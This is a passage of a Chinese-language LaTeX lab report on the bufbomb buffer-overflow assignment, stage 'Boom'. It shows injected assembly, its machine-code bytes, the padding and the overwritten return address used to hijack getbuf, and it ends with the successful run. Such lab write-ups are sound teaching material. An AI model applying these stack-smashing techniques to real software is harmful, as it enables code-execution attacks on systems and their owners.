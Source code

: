 \documentclass{paper}
\begin{document}
\begin{enumerate}
\begin{enumerate}
攻击汇编代码保存在\verb|boom.s|中，如下所示：
\begin{lstlisting}
.text
    movl $0x7b52e696, %eax // %eax = my cookie
    movl $0x55683c80, %ebp // 恢复ebp的值
    push $0x08048e81 // getbuf的返回地址
    ret
\end{lstlisting}

将上述汇编代码转化成机器码并写入\verb|boom_U202115325.txt|中，同时使用攻击代码的地址覆盖\verb|getbuf|函数的返回地址：
\begin{lstlisting}
$ ./asm2bin.sh boom.s
b8 96 e6 52 7b bd 80 3c 68 55 68 81 8e 04 08 c3 
code length : 16 Byte // 攻击代码16字节
$ ./asm2bin.sh boom.s | head -n1 > boom_U202115325.txt // byte 0:17，攻击代码
$ ./gencode.sh 28 00 >> boom_U202115325.txt // byte 18:43，占位代码
$ echo -n "28 3c 68 55" >> boom_U202115325.txt // byte 44:47，攻击代码地址
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|boom_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中：
\begin{lstlisting}
$ ./hex2raw < boom_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Boom!: getbuf returned 0x7b52e696
VALID
NICE JOB!
\end{lstlisting}
顺利通过！

\end{enumerate}

\subsubsection{阶段5:Nitro}
\end{document}
